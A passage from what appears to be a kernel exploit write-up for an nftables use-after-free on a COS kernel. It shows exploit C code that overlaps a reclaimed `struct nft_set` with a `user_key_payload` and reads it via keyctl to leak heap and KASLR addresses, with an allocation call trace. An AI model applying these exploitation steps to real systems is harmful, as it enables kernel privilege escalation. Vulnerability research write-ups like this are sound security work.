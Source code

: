 ```c
if ((key = add_key("user", "abcdefghijklmnop", buf, 0x1f8, KEY_SPEC_PROCESS_KEYRING)) < 0)
	perror("add_key");

// reclaim it with new set
prepare_reclaim_set(nl, RECLAIM_SET_NAME, NOCG_TARGET_SET_SIZE);
```
Thus, we decide to allocate `struct nft_set` object again to overlap it with `struct user_key_payload` object, regardless of triggering the vulnerability.

Notice that we allocate only one `struct user_key_payload` object. This is because the allocate routines of the `struct nft_set` also trigger allocation on `kmalloc-1k` cache for skb construction. 
```
[   23.912852]  __alloc_skb+0x8f/0x260
[   23.913133]  netlink_sendmsg+0x348/0x4d0
[   23.913438]  sock_sendmsg+0x5f/0x70
[   23.913669]  __sys_sendto+0x113/0x160
[   23.913920]  __x64_sys_sendto+0x20/0x30
[   23.914156]  do_syscall_64+0x42/0x90
```
The call trace above shows the allocation path of the given `cos-105-17412.101.17` kernel image.

- [exploit/extra-refined/exploit.c#L1101](../exploit/extra-refined/exploit.c#L1101)
```c
// and check overlap for kernel heap leak + KASLR leak
int key1;
char *key_buf = malloc(0x10000);
memset(key_buf, 0, sizeof(key_buf));
ret = keyctl(KEYCTL_READ, key, key_buf, 0x10000, 0);
if (ret < 0)
	perror("keyctl");
uintptr_t *payload = key_buf;
// for(int i = 0; i < 0x20; i++){
//     printf("%d : 0x%llx\n", i, payload[i]);
// }

uintptr_t kaslr_slide = payload[0x15] - curr_gadget->nft_set_ops_offset;
printf("[+] kaslr_slide : %p\n", kaslr_slide);

// address of struct nft_set (overlapping with struct user_key_payload)
uintptr_t nft_set_addr = payload[0] - 0x10; // binding.prev
printf("[+] nft_set addr : %p\n", nft_set_addr);
```
Because of the useful fields of `struct nft_set`, we didn't need to search for other objects or craft additional primitives. We can leak necessary information directly by reading the overlapped `struct user_key_payload` with `keyctl` syscall.

The following fields are overwritten or leaked and used for further exploit steps.
- The `datalen` field of `struct user_key_payload` is overwritten by `bindings.next` field of `struct nft_set`, which is the kernel pointer and large enough to read the key payload as we want.
- The list entries such as `bindings` or `catchall_list` contains the pointer that points itself. We utilized the `bindings.next` fields to leak the own chunk address (from `kmalloc-1k`).
- The `ops` holds a per-set type vtable pointer, which is located in the kernel data section. This can be utilized for KASLR leak.
